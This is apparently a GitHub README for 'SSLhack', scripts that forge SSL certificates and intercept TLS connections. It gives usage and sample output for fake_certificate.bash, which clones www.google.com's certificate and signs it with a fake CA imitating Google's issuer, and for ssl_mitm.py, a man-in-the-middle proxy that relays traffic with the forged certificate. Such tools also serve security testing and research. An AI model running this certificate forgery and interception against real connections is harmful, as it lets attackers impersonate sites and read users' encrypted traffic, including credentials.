 SSLhack
=======

various scripts to tamper with SSL certificates and SSL connections

fake_certificate.bash
---------------------

fetches an existing certificate and creates a fake certificate request (CSR)
that has the same information (Subject, Issuer, all X.509v3 extensions, ...) as
the original certificate, it only replaces the signature and public key section
with the keys of a new private key.  It also creates a fake CA certificate that
matches the original Issuer certificate in its Subject and Subject Key
Identifier.  Then the fake certificate request (CSR) is signed by the fake CA,
which results in a fake certificate that has all the information of the original
certificate (except modified signature and public key) and that validates
against the fake CA.

Dependencies:
* patched openssl (openssl_req_resign_rekey.patch)
* x509v3ext2req.pl

Usage:

    fake_certificate.bash <orig.crt|host[:port[:servername]]> [<fake.key> [fakeca.key>]]

Example:

    ./fake_certificate.bash www.google.com
    Generating RSA private key, 1024 bit long modulus
    e is 65537 (0x10001)
    Getting request Private Key
    Generating certificate request
    Generating RSA private key, 1024 bit long modulus
    e is 65537 (0x10001)
    Using configuration from tmpCA/ca.cnf
    Check that the request matches the signature
    Signature ok
    Certificate Details:
            Serial Number: 5606004509688922644 (0x4dcc8766513f0214)
            Validity
                Not Before: Feb 12 15:11:16 2014 GMT
                Not After : Jun 12 00:00:00 2014 GMT
            Subject:
                countryName               = US
                stateOrProvinceName       = California
                localityName              = Mountain View
                organizationName          = Google Inc
                commonName                = www.google.com
            X509v3 extensions:
                X509v3 Extended Key Usage: 
                    TLS Web Server Authentication, TLS Web Client Authentication
                X509v3 Subject Alternative Name: 
                    DNS:www.google.com
                Authority Information Access: 
                    CA Issuers - URI:http://pki.google.com/GIAG2.crt
                    OCSP - URI:http://clients1.google.com/ocsp
    
                X509v3 Subject Key Identifier: 
                    0D:EE:E4:01:CC:60:E3:BC:A4:67:6B:5D:75:83:D8:8F:3E:D6:97:55
                X509v3 Basic Constraints: critical
                    CA:FALSE
                X509v3 Authority Key Identifier: 
                    keyid:4A:DD:06:16:1B:BC:F6:68:B5:76:F5:81:B6:BB:62:1A:BA:5A:81:2F
    
                X509v3 Certificate Policies: 
                    Policy: 1.3.6.1.4.1.11129.2.5.1
    
                X509v3 CRL Distribution Points: 
    
                    Full Name:
                      URI:http://pki.google.com/GIAG2.crl
    
    Certificate is to be certified until Jun 12 00:00:00 2014 GMT (365 days)
    
    Write out database with 1 new entries
    Data Base Updated
    
    Original certificate for: /C=US/ST=California/L=Mountain View/O=Google Inc/CN=www.google.com
     certificate: www.google.com.crt
    
    Fake certificate request for: /C=US/ST=California/L=Mountain View/O=Google Inc/CN=www.google.com
     CSR file: fake-www.google.com.csr
     signed with private key: fake-www.google.com.key
    
    Fake certificate for: /C=US/ST=California/L=Mountain View/O=Google Inc/CN=www.google.com
     certificate: fake-www.google.com.crt
     private key: fake-www.google.com.key
     signed by: fakeCA-www.google.com.crt
    
    Fake CA certificate for: /C=US/O=Google Inc/CN=Google Internet Authority G2
     certificate: fakeCA-www.google.com.crt
     private key: fakeCA-www.google.com.key
     signed by: self-signed
    
    # openssl verify -CAfile fakeCA-www.google.com.crt fake-www.google.com.crt
    fake-www.google.com.crt: OK


x509v3ext2req.pl
----------------

copies the X.509v3 extensions from a DER-encoded certificate
into a DER-encoded certificate request (CSR)

Dependencies:
* apt-get install libmath-bigint-perl libdata-walk-perl
* Encoding/BER.pm and Encoding/BER/DER.pm

Usage:

    x509v3ext2req.pl <file.crt> <file.csr>

    
ssl_mitm.py
-----------

Usage:

    ssl_mitm.py <[bindaddr:]port> <certificate.pem> <key.pem> <target[:port]>

Example:

    ./ssl_mitm.py localhost:4443 fake-www.google.com.crt fake-www.google.com.key www.google.com:443
    Listening for connections on localhost:4443 ...
    GET / HTTP/1.1
    Host: www.google.com
    
    
    HTTP/1.1 302 Found
    Cache-Control: private
    Content-Type: text/html; charset=UTF-8
    Location: https://www.google.de/?gfe_rd=cr&ei=9ikKU56iO8qK8QeoroHgDg
    Content-Length: 259
    Date: Sun, 23 Feb 2014 17:03:50 GMT
    Server: GFE/2.0
    Alternate-Protocol: 443:quic
    
    <HTML><HEAD><meta http-equiv="content-type" content="text/html;charset=utf-8">
    <TITLE>302 Moved</TITLE></HEAD><BODY>
    <H1>302 Moved</H1>
    The document has moved
    <A HREF="https://www.google.de/?gfe_rd=cr&amp;ei=9ikKU56iO8qK8QeoroHgDg">here</A>.
    </BODY></HTML>


